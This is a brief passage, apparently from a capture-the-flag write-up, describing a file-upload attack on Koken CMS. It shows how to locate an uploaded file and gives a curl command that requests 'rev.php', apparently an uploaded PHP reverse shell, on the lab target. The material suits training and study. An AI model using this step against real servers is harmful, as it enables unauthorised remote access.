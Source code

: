 ![burp2](/assets/img/photographer/burp2.png)


On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.
![link](/assets/img/photographer/link.png)
```
curl http://192.168.1.7:8000/storage/originals/43/80/rev.php
```
